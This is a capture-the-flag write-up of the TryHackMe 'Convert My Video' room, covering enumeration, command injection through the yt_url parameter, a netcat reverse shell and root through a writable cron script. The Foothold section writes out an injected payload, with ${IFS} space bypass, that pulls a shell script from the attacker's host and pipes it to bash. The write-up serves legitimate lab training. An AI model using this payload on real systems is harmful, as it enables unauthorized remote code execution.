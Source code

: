 ```yaml
---
title: "TryHackMe - Convert My Video"
author: Nasrallah
description: ""
date: 2023-02-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, cronjob, commandinjection]
img_path: /assets/img/tryhackme/convertmyvideo
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Convert My Video](https://tryhackme.com/room/convertmyvideo) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.140.178
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports

 - 22 OpenSSH

 - 80 Apache http web server


### Web

Let's navigate to the web page.

![](1.png)

Here we have an application that converts youtube videos to mp3.

Let's submit something and see what happens.

![](2.png)

We got a error message, let's check the request/response in burp suite.

![](3.png)

The text we submit get added to the string `https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3D` and gets send in the parameter `yt_url` using a POST request.

Let's test for command injection.

![](4.png)

The application is vulnerable through `yt_url` parameter.

## **Foothold**

Time for a reverse shell but first, i tried running commands that contains spaces like `uname -a` and didn't get the result back so we need to bypass this using `${IFS}`.

For the reverse shell, i setup a netcat listener and fed a reverse shell to it.

```bash
nc -lvnp 1234 < shell.sh
```

Then i setup another netcat listener to receive the shell.

After using the command injection vulnerability, i connected to the first listener and piped it to bash.

```bash
nc${IFS}10.11.14.124${IFS}1234|bash
```

![](5.png)


![](6.png)

We got the shell.

## **Privilege Escalation**

On `/var/www/html/tmp/` i found a file called `clean.sh`, so i thought there might be a cronjob running it.

I uploaded a copy of `pspy64` and listened for running processes.

![](7.png)

Indeed there is a cronjob, let's edit the clean.sh file to get root.

![](8.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
